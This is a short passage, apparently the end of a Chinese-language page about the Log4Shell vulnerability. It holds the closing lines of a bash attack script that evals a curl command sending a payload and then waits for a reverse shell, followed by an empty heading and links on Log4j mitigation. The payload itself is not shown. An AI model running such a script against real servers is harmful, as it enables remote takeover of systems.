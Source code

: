 ```bash
# 输出并发送 payload
echo "Sending payload with the following curl command:"
echo $CURL_COMMAND
eval $CURL_COMMAND

echo "Attack deployed. Waiting for reverse shell connection..."
```

### 问题

### 参考

- [了解如何管理 Microsoft Defender for Endpoint 中的 Log4Shell 漏洞](https://learn.microsoft.com/zh-cn/defender-vulnerability-management/tvm-manage-log4shell-guidance)
- [Apache Log4j 高危漏洞缓解和修复措施](https://blog.csdn.net/Orainge/article/details/129002226)

